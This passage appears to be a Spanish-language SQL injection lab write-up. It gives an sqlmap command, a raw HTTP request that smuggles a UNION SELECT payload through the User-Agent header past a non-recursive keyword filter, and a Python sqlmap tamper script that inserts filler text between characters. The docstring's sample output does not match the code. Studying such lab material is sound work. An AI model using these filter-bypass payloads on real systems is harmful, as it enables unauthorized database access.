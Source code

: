 ```bash
sqlmap -u 'http://6.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/camelcase.py --prefix="nonexistent'" --suffix=';#' --union-char=els --banner
```

### SQLi 7

En este escenario, el filtro insensible al caso corta todas las palabras reservadas, pero el filtro no es recursivo.

PoC:

```bash
GET / HTTP/1.1
Host: 7.sqli.labs
User-Agent: ' uZEROFILLnZEROFILLiZEROFILLoZEROFILLnZEROFILL ZEROFILLsZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt ZEROFILL@@ZEROFILLvZEROFILLeZEROFILLrZEROFILLsZEROFILLiZEROFILLoZEROFILLnZEROFILL; ZEROFILL-- ZEROFILL-ZEROFILL
```

Tampering script:

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Insert FILL after every character

    >>> tamper('INSERT')
    'IfillNfillSfillEfillRfillTfill
    """

    retVal = str()

    FILL = 'ZEROFILL'

    if payload:
        for i in range(len(payload)):
            retVal += payload[i] + FILL
    # Uncomment to debug
    # print "pretamper:", payload
    return retVal

```

SQLMap automation:
